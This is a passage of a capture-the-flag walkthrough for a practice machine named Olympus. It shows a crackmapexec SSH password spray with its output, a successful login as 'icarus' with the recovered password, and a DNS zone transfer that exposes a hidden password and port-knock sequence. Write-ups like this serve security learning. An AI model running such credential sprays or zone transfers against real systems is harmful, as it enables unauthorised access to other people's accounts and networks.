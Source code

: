 ```bash
      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

      EAPOL HMAC     : AC 1A 73 84 FB BF 75 9C 86 CF 5B 5A F4 8A 4C 38

```

I created a list of usernames and passwords and sprayed to ssh login using crackmapexec:
```bash
prometheus
hades
zeus
icarus
Too_cl0se_to_th3_Sun
flightoficarus
```
`icarus:Too_cl0se_to_th3_Sun` succeeds.
```bash
crackmapexec ssh 10.10.10.83 --port 2222 -u users -p users
SSH         10.10.10.83     2222   10.10.10.83      [*] SSH-2.0-City of olympia
SSH         10.10.10.83     2222   10.10.10.83      [-] hades:Too_cl0se_to_th3_Sun Authentication failed.
SSH         10.10.10.83     2222   10.10.10.83      [-] hades:flightoficarus Authentication failed.
SSH         10.10.10.83     2222   10.10.10.83      [-] icarus:zeus Authentication failed.
SSH         10.10.10.83     2222   10.10.10.83      [-] icarus:poseidon Authentication failed.
SSH         10.10.10.83     2222   10.10.10.83      [-] icarus:prometheus Authentication failed.
SSH         10.10.10.83     2222   10.10.10.83      [-] icarus:hades Authentication failed.
SSH         10.10.10.83     2222   10.10.10.83      [-] icarus:icarus Authentication failed.
SSH         10.10.10.83     2222   10.10.10.83      [+] icarus:Too_cl0se_to_th3_Sun
```
And I can SSH in as `icarus`:
```bash
$ ssh -p 2222 icarus@10.10.10.83
icarus@10.10.10.83's password:
Last login: Sun Apr 15 16:44:40 2018 from 10.10.14.4
icarus@620b296204a3:~$ 
```

# DNS Zone-Transfer
But this one's also a docker container and there's only one file which has:
```bash
icarus@620b296204a3:~$ cat help_of_the_gods.txt
Athena goddess will guide you through the dark...
 
Way to Rhodes...
ctfolympus.htb
```

So, I added `10.10.10.83 ctfolympus.htb` to my /etc/hosts file and enumerated DNS again. And since DNS is running on TCP, I can try for zone-transfer:
```bash
$ dig axfr ctfolympus.htb @10.10.10.83

; <<>> DiG 9.16.15-Debian <<>> axfr ctfolympus.htb @10.10.10.83
;; global options: +cmd
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.         86400   IN      TXT     "prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.         86400   IN      A       192.168.0.120
ctfolympus.htb.         86400   IN      NS      ns1.ctfolympus.htb.
ctfolympus.htb.         86400   IN      NS      ns2.ctfolympus.htb.
```